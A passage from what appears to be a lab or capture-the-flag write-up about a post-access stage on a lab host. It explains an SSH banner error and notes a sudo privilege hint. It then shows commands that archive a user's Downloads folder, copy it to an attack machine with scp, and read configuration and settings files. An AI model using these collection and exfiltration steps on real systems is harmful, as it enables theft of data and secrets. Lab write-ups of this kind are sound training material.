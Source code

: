     Upon gaining access, inspecting `/etc/ssh/sshd_config` revealed a Banner directive pointing to `/etc/ssh/banner.txt`, which contained plain text.
    This caused the SSH client to receive non-protocol data before the handshake, triggering the error.

    ![](https://cdn-images-1.medium.com/max/1000/1*xdGyVxJWwkAFpIPPpMczvg.png)
    
    In a normal SSH connection, the first data from the server is the SSH protocol banner (`e.g., SSH-2.0-OpenSSH_7.6p1)`. Any additional content (ASCII art, warnings, or misconfigured scripts) sent before that will cause this type of error.

+ Privilege hint

    Once connected, the SSH login banner included a useful hint — all “Web Developers” are sudo users.
    Since wao is part of the web developers group, we already have root privileges here `sudo su`.
    ![](https://cdn-images-1.medium.com/max/1000/1*GJ2EndslepHGajHlcR5wjQ.png)

+ File enumeration & recon


    This machine hosts a full test deployment of the website.
    ![](https://cdn-images-1.medium.com/max/1000/1*U0yWSVb8MY9JEbr126nCxw.png)
    
    To review all file names `ls -laR`

    For local review, you can download the entire Downloads directory:

    1. On lab-2
        ```bash
        tar -cvf downloads.tar Downloads/
        split -b 10M downloads.tar downloads.tar.part-
        ```
    2. On attack machine
        ```bash
        scp wao@192.168.99.12:/home/wao/downloads.tar.part-aa .
        scp wao@192.168.99.12:/home/wao/downloads.tar.part-ab .
        scp wao@192.168.99.12:/home/wao/downloads.tar.part-ac .
        ```
    3. Recombine & extract
        ```bash
        cat downloads.tar.part-* > downloads_recombined.tar
        tar -xvf downloads_recombined.tar
        ```
    4. Interesting paths found:
        ```bash
        cat ./Downloads/nginx/nginx.conf
        cat ./Downloads/test/settings.py
        cat ./Downloads/University-Windows/University/settings.py
            ./Downloads/University-Linux/University/static/assets/uploads/CSRs/2.csr
            ./Downloads/University-Linux/University/static/assets/uploads/Pub_KEYs/2.asc
        cat ./Downloads/University-Linux/University/templates/debug-static/assets/uploads/script.sh
        cat ./Downloads/University-Linux/University/templates/debug-static/assets/uploads/script_3MIgYxC.sh
        ```
        Most of these had been retrieved earlier, but this instance included another CSR file: `2.csr`.
